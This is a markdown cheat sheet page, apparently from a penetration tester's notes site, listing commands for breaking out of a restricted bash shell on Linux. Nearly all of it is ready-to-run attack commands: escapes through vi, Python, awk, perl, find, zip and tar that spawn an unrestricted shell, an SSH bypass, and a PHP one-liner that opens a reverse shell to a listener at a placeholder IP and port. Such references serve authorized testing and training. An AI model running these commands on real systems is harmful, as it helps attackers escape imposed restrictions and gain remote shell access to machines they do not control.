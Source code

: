 # Linux PrivEsc CheatSheet
[Home](../../index.md) | [CheatSheets](../../cheatsheets.md) | [About](../../about.md) | [Back](../linuxprivesc.md)

## Restricted Bash Shell Breakout:
                                                                	
| Command                                                                                           	| Notes                                                                                                                                    	                |
|-----------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                            	| Determine if we are in an rbash shell (/bin/rbash)                                                                                       	|
| ssh user@ip -t "bash --noprofile"                                                                 	| Bypass rbash if we can use SSH along with a known username and password                                                                  	|
| vi<br>:set shell=/bin/bash<br>:shell                                                              	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                               	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                            	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                             	|
| awk 'BEGIN {system("/bin/bash")}'                                                                 	| Escape rbash using AWK                                                                                                                   	|
| perl -e 'system("/bin/bash");'                                                                    	| Use PERL to escape rbash and spawn a bash shell                                                                                          	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                   	| Use the find command to execute the /bin/bash binary                                                                                     	|
| cp /bin/bash .                                                                                    	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                    	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                  	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                          	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                       	| Use the tar command to execute the bash binary upon archive creation.                                                                    	|


